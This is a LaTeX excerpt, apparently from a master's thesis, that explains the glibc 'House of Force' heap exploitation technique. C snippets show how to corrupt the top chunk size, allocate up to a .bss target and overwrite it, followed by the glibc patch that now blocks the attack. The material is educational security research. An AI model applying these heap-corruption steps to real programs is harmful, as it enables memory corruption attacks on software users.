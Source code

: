 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\begin{document}
Now, we have a pointer to the top chunk, all we have to do overwrite the size field:

\begin{lstlisting}[language=c,frame=tlrb]
*(intptr_t *)((char *)ptr_top + sizeof(long)) = -1
\end{lstlisting}

If you check the \libc{} above code, you can see the \libc{} convert the size to (unsigned long), so,  is the largest number. Now we put a big number on size, so, malloc doesn’t call mmap to get more memory from os, instead, it uses the top chunk. All we have to do now is allocate a chunk from the top chunk to right before our target, then, the second chunk is be our target:

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;
void *new_ptr = malloc(evil_size);
\end{lstlisting}

The above code, calculate the distance between the start of the top chunk and the start of the target (bss\_var), then allocate memory space to rich the target, however, this chunk does not point to target, this chunk point to start of the top chunk, so, we need to allocate the second chunk: 

\begin{lstlisting}[language=c,frame=tlrb]
void* ctr_chunk = malloc(100);
\end{lstlisting}

This chunk points to our target, so, with one simple strum we can overwrite the value:  

\begin{lstlisting}[language=c,frame=tlrb]
strcpy(ctr_chunk, "YEAH!!!");
\end{lstlisting}

Unfortunate this attack does not work on current \libc{} version because of below patch  \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4106}{\texttt{malloc.c}, line 4106}}:
\begin{lstlisting}[language=c,frame=tlrb]
if (__glibc_unlikely (size > av->system_mem))
    malloc_printerr ("malloc(): corrupted top size");
\end{lstlisting}

\subsection{The House of Lore}
\end{document}
